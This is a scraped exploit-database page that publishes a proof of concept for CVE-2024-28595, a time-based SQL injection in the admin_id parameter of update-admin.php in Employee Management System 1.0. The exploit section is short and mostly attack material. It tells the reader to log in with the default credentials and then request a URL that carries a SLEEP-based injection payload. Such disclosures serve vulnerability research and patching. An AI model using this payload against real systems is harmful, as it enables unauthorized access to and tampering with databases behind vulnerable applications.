 ```yaml
---
title: Employee Management System 1.0 - (admin_id) SQL injection Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-39475&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-21
fetch_date: 2025-10-04T12:09:14.694296
---
```


# Employee Management System 1.0 - (admin_id) SQL injection Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Employee Management System 1.0 - (admin\_id) SQL injection Vulnerability CVE-2024-28595

2024-03-20 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-39475
# Exploit Title: Employee Management System 1.0 - 'admin_id' SQLi
# Exploit Author: Shubham Pandey
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html
# Version: 1.0
# Tested on: Windows, Linux
# CVE : CVE-2024-28595
# Description: SQL Injection vulnerability in Employee Management System v1.0 allows attackers to run arbitrary SQL commands via the admin_id parameter in update-admin.php.
# POC:
1. Here we go to : http://127.0.0.1/taskmatic/index.php
2. Now login with default Username and Password.
3. Visit the URL:
http://127.0.0.1/taskmatic/update-admin.php?admin_id=3'||(SELECT 0x697a7843
WHERE 5649=5649 AND (SELECT 2097 FROM (SELECT(SLEEP(5)))JzJH))||'
4. Page will load for 5 seconds because of time-based sql injection
# Reference:
https://github.com/shubham-s-pandey/CVE_POC/blob/main/CVE-2024-28595.md
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)